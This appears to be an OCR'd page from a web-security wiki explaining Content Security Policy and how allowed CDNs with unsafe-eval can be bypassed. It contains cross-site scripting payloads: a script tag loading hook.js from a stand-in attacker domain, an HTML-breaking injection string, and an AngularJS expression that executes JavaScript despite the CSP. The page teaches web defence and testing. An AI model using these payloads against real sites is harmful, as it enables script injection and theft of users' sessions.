 ```html
<img src="assets/images/logo.png">
```

The following script will be **allowed** as the script is loading from the same domain i.e. `website.com`:

```html
<script src="assets/scripts/main.js"></script>
```

The following script will **not-allowed** as the script is trying to load from an undefined domain i.e. `attacker-website.com`:

```html
<script src=https://attacker-website.com/hook.js></script>
```

The following payload will **not-allowed** on the page as inline scripts are blocked by default:

```html
"/><script>alert(1337)</script>
```

The following image will **not-allowed** as the image is loaded from an undefined domain i.e. `attacker-website.com`:

```html
<img src="https://attacker-website.com/image.svg">
```

Since the directive is not defined in the CSP `img-src` is set to `self` and follows `default-src` by default.

# Bypassing techniques

You can use the following online tools to check Content Security Policy:
- [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/)
- [https://cspvalidator.org/](https://cspvalidator.org/)

## Allowed CDNs

If `script-src` or `object-src` allows a public CDN by its domain name it is possible to access any data from that CDN, including vulnerable libraries or frameworks.

{% hint style="info" %}
The presence of `unsafe-eval` or `unsafe-inline` sources significantly simplifies the exploitation of a vulnerable library or framework, since it allows directly calling the vulnerable component. Otherwise, it is necessary to find a way to call a vulnerable component.
{% endhint %}

For example, in the snippet below the CSP allows `https://cdnjs.cloudflare.com` and sets `unsafe-eval` in `script-src`. It allows using `AngularJS` to execute arbitrary JavaScript code.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' https://cdnjs.cloudflare.com;">
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js"></script>
</head>
<body>
    <div ng-app ng-csp>{{$on.constructor('alert(1)')()}}</div>
</body>
```
